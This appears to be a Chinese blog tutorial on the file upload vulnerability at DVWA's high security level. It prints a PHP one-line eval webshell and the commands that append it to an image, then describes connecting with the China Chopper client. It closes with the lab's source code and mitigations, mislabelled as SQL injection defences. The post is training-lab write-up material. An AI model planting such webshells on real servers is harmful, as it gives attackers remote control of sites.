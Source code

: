 ```yaml
---
layout: post
title: DVWA之high级文件上传漏洞
date: '2021-03-22 18:38:20 +0800'
categories: technology
tags: ubuntu apache mysql php phpmyadmin git hack web dvwa
img: https://i.loli.net/2021/03/24/ahCQugrpzeqwxVU.png
themecolor: "#fff"
themetextcolor: "#000"
describe: File Upload in DVWA
---
```


## 什么是文件上传漏洞

文件上传漏洞是指用户上传了一个可执行的脚本文件，并通过此脚本文件获得了执行服务器端命令的能力。常见场景是 web 服务器允许用户上传图片或者普通文本文件保存，而用户绕过上传机制上传恶意代码并执行从而控制服务器。显然这种漏洞是 getshell 最快最直接的方法之一，需要说明的是上传文件操作本身是没有问题的，问题在于文件上传到服务器后，服务器怎么处理和解释文件。


文件上传漏洞的利用是有`限制条件`：

+ 能够成功上传木马文件
+ 上传文件必须能够被执行
+ 上传文件的路径必须可知

## 文件上传漏洞产生的原因

1. 服务器配置不当会导致任意文件上传；

2. Web 应用开放了文件上传功能，并且对上传的文件没有进行足够的限制；

3. 程序开发部署时候，没有考虑到系统特性和验证和过滤不严格而导致限制被绕过，上传任意文件。


## 文件上传漏洞的原理

![](../assets/images/posts/dvwa/fileupload/fu.png)

## high级别文件上传



### 1. 制作一句话木马

```php
<?php @eval($_POST['attack']); ?>
```

![](../assets/images/posts/dvwa/fileupload/tro.png)   
   
密码为attack

### 2. 准备一张图片

本文使用以下图片进行上传操作：

![m.jpg](../assets/images/posts/dvwa/fileupload/m.jpg)

### 3. 生成图片木马
如果是`Windows`系统，则在`cmd`中执行以下形式的命令：

```bash
copy 原图片名/b+一句话木马文件名/a 生成图片木马名
```

其中`b`指的是binary二进制的含义，`a`指的是append追加的含义。

以上一条命令是把一句话木马以二进制的方式追加到原图片后面生成新的图片木马，原图片内容不会发生改变。

![](../assets/images/posts/dvwa/fileupload/f.png)

把图片用十六进制文本编辑器（如010editor）打开就会发现，图片的末尾就是一句话木马的内容。

![](../assets/images/posts/dvwa/fileupload/bin.png)

如果是`Linux`系统，则执行以下形式的命令：
```bash
cat 一句话木马文件名 >> 图片名
```
以上一条命令就是把一句话木马追加到图片后面。

### 4. 上传木马图片

![](../assets/images/posts/dvwa/fileupload/dvwa.png)

### 5. 连接中国菜刀工具

打开`中国菜刀`后，右键点击添加，如下图所示的格式来填写地址以及配置信息

![](../assets/images/posts/dvwa/fileupload/cd.png)

添加成功后，双击就可以用`中国菜刀`就可以获取和控制整个网站目录。

![](../assets/images/posts/dvwa/fileupload/fin.png)

### 源码分析

```php
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // File information
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];
    $uploaded_tmp  = $_FILES[ 'uploaded' ][ 'tmp_name' ];

    // Is it an image?
    if( ( strtolower( $uploaded_ext ) == "jpg" || strtolower( $uploaded_ext ) == "jpeg" || strtolower( $uploaded_ext ) == "png" ) &&
        ( $uploaded_size < 100000 ) &&
        getimagesize( $uploaded_tmp ) ) {

        // Can we move the file to the upload folder?
        if( !move_uploaded_file( $uploaded_tmp, $target_path ) ) {
            // No
            echo '<pre>Your image was not uploaded.</pre>';
        }
        else {
            // Yes!
            echo "<pre>{$target_path} succesfully uploaded!</pre>";
        }
    }
    else {
        // Invalid file
        echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
    }
}

?> 
```
High级别的代码读取文件名中最后一个`.` 后的字符串，期望通过文件名来限制文件类型，因此要求上传文件名形式必须是`*.jpg`、`*.jpeg` 、`*.png` 之一。同时，`getimagesize` 函数更是限制了上传文件的文件头必须为图像类型。


## SQL注入防御措施
1. 对上传的文件在服务器上存储时进行重命名。
2. 检查上传文件的类型和大小。
3. 禁止上传危险的文件类型，如·`php`、`asp`、`jsp`、`jar`、`war` 等。
4. 直接受指定类型的文件。
5. 上传文件做日志记录。
6. 上传文件要保存的文件名和目录名由系统根据时间生成，不允许用户自定义。
